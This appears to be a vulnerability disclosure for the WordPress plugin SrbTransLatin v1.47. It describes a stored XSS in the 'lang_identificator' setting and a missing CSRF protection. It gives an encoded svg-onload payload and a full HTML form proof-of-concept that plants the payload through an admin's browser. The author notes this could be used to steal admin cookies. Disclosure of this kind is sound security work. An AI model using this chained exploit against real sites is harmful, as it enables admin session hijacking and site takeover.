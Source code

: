 Well ,sir ,I just found a Stored-XSS bug and a CSRF bug at wp-plugin SrbTransLatin.

#### Stored-XSS

When the admin user click the "Update Options" button in the SrbTransLatin setting page, we'll post some data to:

```
http://localhost/wordpress/wp-admin/options-general.php?page=srbtranslatoptions
```


But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
lang_identificator=script%27%22%3E%3Csvg%2Fonload%3Dalert%28123%29%3E%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/SrbTransLatin/insert-xss.png)


#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/options-general.php?page=srbtranslatoptions" method="POST">
      <input type="hidden" name="lang&#95;identificator" value="script&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;123&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="stl&#95;default&#95;language" value="cir" />
      <input type="hidden" name="file&#95;lang&#95;delimiter" value="&#61;" />
      <input type="hidden" name="sanitize&#95;file&#95;names" value="on" />
      <input type="hidden" name="Submit" value="Update&#32;Options" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the wp-plugin SrbTransLatin v1.47.